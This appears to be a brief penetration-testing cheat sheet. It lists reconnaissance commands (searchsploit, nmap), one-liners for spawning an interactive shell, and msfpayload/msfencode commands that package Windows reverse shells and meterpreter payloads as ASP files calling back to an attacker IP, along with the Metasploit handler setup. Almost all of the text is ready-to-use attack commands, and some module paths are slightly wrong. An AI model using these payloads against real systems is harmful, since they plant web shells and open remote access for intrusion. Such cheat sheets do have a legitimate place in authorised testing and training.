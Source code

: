* `searchsploit`
* `nmap -sV -sC <host address>`
* Spawning a TTY shell
  * `python -c 'import pty; pty.spawn("/bin/sh")'`
  * `echo os.system('/bin/bash')`
  * `/bin/sh -i`

```
Encoding windows reverse command shell as asp
msfpayload windows/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-nc-port> R | msfencode -t asp -o <filename>.asp
Encoding meterpreter in asp
msfpayload windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-multi-handler-port> R | msfencode -t asp -o <filename>.asp
------
attacker msfconsole:
use multi/exploit/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <attacker-multi-handler-port>
exploit

```



